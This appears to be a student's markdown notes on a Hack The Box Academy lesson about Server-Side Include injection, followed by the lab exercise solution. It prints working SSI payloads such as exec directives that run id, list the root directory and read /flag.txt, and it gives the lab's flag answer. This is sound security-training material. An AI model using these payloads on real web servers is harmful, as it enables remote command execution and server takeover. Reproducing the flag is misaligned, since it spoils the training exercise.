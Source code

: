 ```yaml
---
sticker: lucide//server-off
---
```

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

---

## Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`



   

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

# Question

![](cybersecurity/images/Pasted%2520image%252020250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

![](cybersecurity/images/Pasted%2520image%252020250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

![](cybersecurity/images/Pasted%2520image%252020250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

![](cybersecurity/images/Pasted%2520image%252020250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
